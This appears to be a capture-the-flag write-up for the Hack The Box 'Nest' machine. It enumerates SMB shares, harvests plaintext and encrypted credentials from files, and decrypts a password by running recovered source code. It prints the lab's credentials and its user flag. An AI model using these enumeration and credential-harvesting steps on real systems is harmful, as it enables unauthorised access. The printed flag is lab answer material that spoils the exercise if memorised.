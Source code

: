 ### Listing the shares:
```
$ smbclient  -L //10.10.10.178
Enter WORKGROUP\root's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        Secure$         Disk      
        Users           Disk      
SMB1 disabled -- no workgroup available
```



### You can do the following to access the shares:
```
$ smbclient //10.10.10.178/Data
            or            /Users
            or            /C$
            or			 /Secure$
```


### enum 01
```
$ smbclient //10.10.10.178/Users -U TempUser
```

### to download the files use:
`msf > use auxiliary/admin/smb/download_file`

or
`smbget  smb://username:password@ip/<share>/<path to file or folder>`
-R argument for folders

some interesting files contain the following:

#### file 01
```
We would like to extend a warm welcome to our newest member of staff, <FIRSTNAME> <SURNAME>

You will find your home folder in the following location:
\\HTB-NEST\Users\<USERNAME>

If you have any issues accessing specific services or workstations, please inform the
IT department and use the credentials below until all systems have been set up for you.

Username: TempUser
Password: welcome2019
```

#### file 02
```
<File filename="C:\windows\System32\drivers\etc\hosts"/>
<File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt"/>
<File filename="C:\Users\C.Smith\Desktop\todo.txt"/>
```


#### file 03  (hash 01 - C.Smith)

```
<?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="ht>
  <Port>389</Port>
  <Username>c.smith</Username>
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile>
```




#### more enumeration 02

```
smbget -R smb://TempUser:welcome2019@10.10.10.178/Secure$/IT/Carl/
```
to download all files


#### Cracking the hash

Download Visual Studio on win
Import the project using the .sln file
In Main function we see a RU_Config.xml file been used but
doesnt exist the folder we dowloaded.
This file is the file 03. We put it in bin/Debug ...
where the Visual Studio points to.

After the already typed lines, type the following:
```
Dim MyVar = Utils.DecryptString(Config.Password)
Debug.Print(MyVar)
```
Then build and execute the project.
and we get the following pass:
`xRxRxPANCAK3SxRxRx`




```
root@system262:~# smbclient //10.10.10.178/Users -U C.Smith
Enter WORKGROUP\C.Smith's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jan 26 01:04:21 2020
  ..                                  D        0  Sun Jan 26 01:04:21 2020
  Administrator                       D        0  Fri Aug  9 18:08:23 2019
  C.Smith                             D        0  Sun Jan 26 09:21:44 2020
  L.Frost                             D        0  Thu Aug  8 20:03:01 2019
  R.Thompson                          D        0  Thu Aug  8 20:02:50 2019
  TempUser                            D        0  Thu Aug  8 01:55:56 2019

                10485247 blocks of size 4096. 6544145 blocks available
smb: \> cd C.Smith\
smb: \C.Smith\> ls
  .                                   D        0  Sun Jan 26 09:21:44 2020
  ..                                  D        0  Sun Jan 26 09:21:44 2020
  HQK Reporting                       D        0  Fri Aug  9 02:06:17 2019
  user.txt                            A       32  Fri Aug  9 02:05:24 2019

                10485247 blocks of size 4096. 6544145 blocks available
```

then get the user.txt with the smbget command.

cf71b25404be5d84fd827e05f426e987



### ROAD TO root
run to dowload the folder
`smbget -R  smb://C.Smith:xRxRxPANCAK3SxRxRx@10.10.10.178/Users/C.Smith/"HQK Reporting"`



### file 04 HQK_Config_Backup.xml

```
<?xml version="1.0"?>
<ServiceSettings xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>4386</Port>
  <QueryDirectory>C:\Program Files\HQK\ALL QUERIES</QueryDirectory>
</ServiceSettings>
```


Important parts of the above are:
- 4386 new port
- <QueryDirectory>C:\Program Files\HQK\ALL QUERIES</QueryDirectory>

Also we got an .exe file and empty file(or seems to be)

